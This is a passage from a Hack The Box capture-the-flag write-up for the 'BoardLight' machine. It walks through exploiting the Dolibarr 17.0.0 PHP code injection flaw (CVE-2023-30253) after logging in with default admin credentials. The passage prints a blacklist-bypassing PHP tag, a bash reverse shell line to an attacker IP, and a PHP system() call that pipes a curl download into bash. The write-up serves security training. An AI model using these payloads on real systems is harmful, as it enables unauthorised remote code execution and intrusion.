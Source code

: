 - Upon accessing the subdomain `crm.board.htb`, the pentester noticed that it is running the service `Dolibarr (17.0.0)`. A quick search for vulnerabilities associated with this service allowed the pentester to discover the following CVE: [`PHP Code Injection (CVE-2023-30253)`](https://www.swascan.com/security-advisory-dolibarr-17-0-0/). This vulnerability fundamentally consists of being able to bypass security controls that prohibit an unprivileged user from adding or editing PHP dynamic content (generally, these actions are restricted to `developers`). However, this vulnerability not only allows this but also circumvents the `blacklist` of certain dangerous PHP functions (commands) such as `system`, `exec`, etc., ultimately allowing Remote Code Execution (RCE).

![](/assets/images/HTB-Writeup-BoardLight/Pasted image 20240528114950.png)

- To exploit this vulnerability, authentication in `Dolibarr` is required. A quick search for default credentials of this software yields the following: `admin:admin`.

![](/assets/images/HTB-Writeup-BoardLight/Pasted image 20240528085557.png)

- He tried to access with those credentials. Boom! He could authenticate in Dolibarr. However, to exploit this vulnerability, it is necessary to have access to a `page` belonging to a `website` in order to modify the source code. Unfortunately, there isn't one available. Therefore, I created a website with the following steps.

![](/assets/images/HTB-Writeup-BoardLight/Pasted image 20240528090140.png)

![](/assets/images/HTB-Writeup-BoardLight/Pasted image 20240528090205.png)

![](/assets/images/HTB-Writeup-BoardLight/Pasted image 20240528090233.png)

![](/assets/images/HTB-Writeup-BoardLight/Pasted image 20240528090321.png)

![](/assets/images/HTB-Writeup-BoardLight/Pasted image 20240528090725.png)

- He modified the source code with the following content in order to see if it's possible to exploit the vulnerability

```php
<?PhP echo "Testing" . ": CVE-2023-30253";?>
```


![](/assets/images/HTB-Writeup-BoardLight/Pasted image 20240528091216.png)

![](/assets/images/HTB-Writeup-BoardLight/Pasted image 20240528091513.png)

- So in order to receive a reverse shell, he hosted the following `pwn.html` file on an HTTP server, with the following content:

```
bash -i>&/dev/tcp/10.10.14.80/4444 0>&1
```

- And then, he executed the following PHP code. 

```php
<?PHP system("curl -s http://10.10.14.80/pwn.html|bash");?>
```
